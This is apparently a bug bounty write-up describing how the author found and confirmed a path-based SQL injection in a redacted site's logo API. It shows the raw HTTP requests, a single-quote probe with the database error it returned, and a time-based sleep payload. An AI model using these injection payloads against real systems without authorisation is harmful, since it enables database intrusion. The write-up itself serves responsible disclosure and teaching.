 ```yaml
---
title: "The exploitation of a $$$$ SQL Injection Path Based"
date: 2024-06-03 08:13:13 -03
categories: [bugbounty]
tags: [bugbounty]
image: /assets/img/Posts/sqli.png
---
```


# Here is how I exploited a unusual SQL Injection Path Based and got rewarded with bounty 


First of all, here are some sections that will be covered in this article,

```
┌───────────────Summary────────────────┐
│                                      │
│  1. Fase One - Analysing features    │
│     - Finding interesting feature    │
│  2. Fase Two - Exploitation          │
│                                      │
└──────────────────────────────────────┘
```

# Section 1 - Analysing features

In this web application, after logging in, This site had 3 main functionalities, one for creating `ebrochures`, another for creating `embed content`, and another for creating `mini sites`.

All of this 3 functionalities had a logo system, which query all existent logos uploaded to the website, along with a `logo upload` which will be covered in the next article 💀.

<img src="/assets/img/Posts/functionalities.png">


## Finding Interesting Feature

After identifying that there was a `logo upload system`, and that it searched for existing logos using a `query`, I decided to take a deeper look at this part.

<img src="/assets/img/Posts/logofunc.png">

To show the logos that have been approved, it makes a `suspicious query`, and then `loads the page` and makes it possible to upload another logo. 

In this article I will only focus on the exploration part of how the application gets these `approved logos`.


# Section 2 - Exploitation

Now, by intercepting the request to logo endpoint, we have the following:

**Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved,Rejected,Pending/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

Analyzing the request, it was possible to notice that after the include/ endpoint, 

it uses as arguments some values that serve to `identify` the logos, that is, those values that are there are used to `filter` the logos by `approved` logos, `pending approval`, or `rejected`.

Which seems strange, because a `comma` is even being used to separate the arguments, and at the end of the path there is a `sortBy`, which leads me to believe that this endpoint is probably `querying the database` to get the logos

**Request with single quote**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved'/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

What we got:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Approved'')  ORDER BY CAST(STATUS AS CHAR) ASC, APPROVED_DATE DESC' at line 20, errors: [{errorType: (SYSTEM_ERROR, System Error), errorCode: (030003, System Error), message: Dao Error}]}",
```

<img src="/assets/img/Posts/singlequote.png">

Perfect!, we now know for sure it is vulnerable to SQL Injection.

---

Since we know that the query has '), we need to escape it but fix the syntax by also putting the ), so as not to break the query

**Time Based Payload Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved')+and+sleep(2)+--+-/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: www.redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```


Due to the use of `akamai cdn`, and communication with `internal servers`, sleep payload was taking `6 seconds longer`, that is, `sleep(1)` takes 6 seconds, `sleep(2)` 12 seconds, and `sleep(3)`, 18 seconds, but this did not affect the triage of the report.

**sleep(1)**:

<img src="/assets/img/Posts/1sec.png">

**sleep(2)**:

<img src="/assets/img/Posts/2sec.png">


This was enough to get the report triaged. GG!

---



# Thank you !


<img src="/assets/img/Posts/end.png">

# Report Status


> Reported at - July 9, 2024, 10:26pm UTC

> Triaged at - July 10, 2024, 8:35pm UTC

> Payed at - July 11, 2024, 7:03pm UTC

> OBS: This report was made along with my friend which found this application and program for testing and send it to me, thanks @foorw1nner :)

<img src="/assets/img/Posts/bountysqli.png">

